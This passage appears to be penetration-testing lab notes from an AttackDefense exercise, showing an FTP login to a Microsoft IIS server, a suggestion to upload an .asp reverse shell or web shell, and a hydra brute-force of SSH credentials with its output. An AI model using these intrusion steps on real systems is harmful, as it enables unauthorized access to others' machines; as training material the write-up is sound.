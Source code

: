 **Note: ** FTP credentials are actually user accounts on the system   



**login with ftp credentials**

```bash
root@attackdefense:~# ftp 10.4.31.186
Connected to 10.4.31.186.
220 Microsoft FTP Service
Name (10.4.31.186:root): administrator
331 Password required for administrator.
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> ls
229 Entering Extended Passive Mode (|||49352|)
125 Data connection already open; Transfer starting.
10-28-21  06:22AM       <DIR>          aspnet_client
10-28-21  06:19AM                   28 caidao.asp
10-28-21  06:18AM                34251 hahaha.jpg
10-28-21  06:18AM              1116928 index.html
10-28-21  06:18AM              2439511 seven_of_hearts.html
10-28-21  06:18AM               384916 six_of_diamonds.zip
10-28-21  06:22AM               184946 welcome.png
226 Transfer complete.

```

In this case, authentication is successful and as a result, we are able to view the content of the FTP directory, which in this case, appears to be the directory of the Microsoft IIS web server.

This means that we can make changes to the web app being hosted on Microsoft IIS.

Alternatively, we can also generate and upload an .asp reverse shell or web shell to the directory of the Microsoft IIS web server in order to gain remote access to the target system.



---

#### Targeting OpenSSH    

**bruteforce SSH credentials with hydra**

```bash
root@attackdefense:~# hydra -l vagrant -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt ssh://10.4.18.58
Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-02-12 00:08:50
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 1009 login tries (l:1/p:1009), ~64 tries per task
[DATA] attacking ssh://10.4.18.58:22/
[STATUS] 181.00 tries/min, 181 tries in 00:01h, 833 to do in 00:05h, 16 active
[STATUS] 167.00 tries/min, 501 tries in 00:03h, 513 to do in 00:04h, 16 active
[22][ssh] host: 10.4.18.58   login: vagrant   password: vagrant
```
